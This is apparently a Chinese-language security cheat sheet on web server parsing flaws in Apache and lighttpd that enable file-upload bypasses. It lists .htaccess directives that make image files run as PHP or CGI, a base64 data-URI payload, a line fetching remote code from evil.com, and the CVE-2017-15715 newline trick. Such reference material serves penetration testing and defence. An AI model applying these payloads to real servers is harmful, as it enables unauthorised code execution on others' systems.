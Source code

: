 Apache
========================================

后缀解析
----------------------------------------
``test.php.x1.x2.x3`` （ x1,x2,x3 为没有在 mime.types 文件中定义的文件类型）。Apache 将从右往左开始判断后缀， 若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析

.htaccess
----------------------------------------
当AllowOverride被启用时，上传启用解析规则的.htaccess

::

    AddType application/x-httpd-php .jpg

::

    php_value auto_append_file .htaccess
    #<?php phpinfo();

::

    Options ExecCGI
    AddHandler cgi-script .jpg

::

    Options +ExecCGI
    AddHandler fcgid-script .gif
    FcgidWrapper "/bin/bash" .gif

::

    php_flag allow_url_include 1
    php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
    #php_value auto_append_file https://evil.com/evil-code.txt

目录遍历
----------------------------------------
配置 ``Options +Indexes`` 时Apache存在目录遍历漏洞。

CVE-2017-15715
----------------------------------------
%0A绕过上传黑名单

lighttpd
----------------------------------------
``xx.jpg/xx.php``

参考链接
----------------------------------------
- `Apache 上传绕过 <https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html>`_
